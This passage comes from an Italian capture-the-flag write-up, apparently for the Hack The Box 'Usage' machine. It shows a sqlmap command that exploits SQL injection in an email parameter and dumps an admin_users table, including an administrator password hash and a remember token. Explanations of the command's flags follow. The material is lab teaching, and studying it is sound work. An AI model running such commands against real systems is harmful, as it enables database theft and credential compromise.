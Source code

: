 ```bash
┌──(kali㉿kali)-[~/…/share/sqlmap/output/usage.htb]
└─$ sqlmap -r request.txt -p email --batch --level 5 --risk 3 -D usage_blog --tables -T admin_users -threads 10 --dump

...<snip>...
Database: usage_blog
Table: admin_users
[1 entry]
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| id | name          | avatar  | password                                                     | username | created_at          | updated_at          | remember_token                                               |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| 1  | Administrator | <blank> | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 | admin    | 2023-08-13 02:48:26 | 2024-07-08 17:49:03 | EgiLfkUc3evFcQ4gQcESVLAUjTsS7zqZ9pdWSwWPMmNVL6vFnj1tEb0Lzfah |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
...<snip>...
```


- **`-r request.txt`**
    
    - Questo parametro indica a `sqlmap` di utilizzare un file di richiesta HTTP (in formato raw) chiamato `request.txt`. Questo file dovrebbe contenere la richiesta HTTP che si desidera testare per le vulnerabilità SQL injection.
- **`-p email`**
    
    - Specifica il parametro da testare per l'iniezione SQL. In questo caso, `email` è il nome del parametro che verrà analizzato per le vulnerabilità SQL.
- **`--batch`**
    
    - Questo parametro indica a `sqlmap` di eseguire l'operazione in modalità automatica, evitando richieste di conferma da parte dell'utente. È utile per eseguire script in batch senza interazione manuale.
- **`--level 5`**
    
    - Imposta il livello di approfondimento dei test di vulnerabilità. `sqlmap` offre livelli da 1 a 5; un livello più alto significa che `sqlmap` eseguirà test più completi e complessi, ma richiederà più tempo. Un livello di 5 è molto approfondito e testerebbe diversi tipi di iniezione.
- **`--risk 3`**
    
    - Questo parametro imposta il livello di rischio per l'esecuzione delle tecniche di attacco. I valori vanno da 0 a 3, dove 0 è il livello più sicuro e 3 il più rischioso. Un rischio di 3 consente l'uso di tecniche più aggressive che possono comportare effetti collaterali o un carico maggiore sul server target.
- **`-D usage_blog`**
    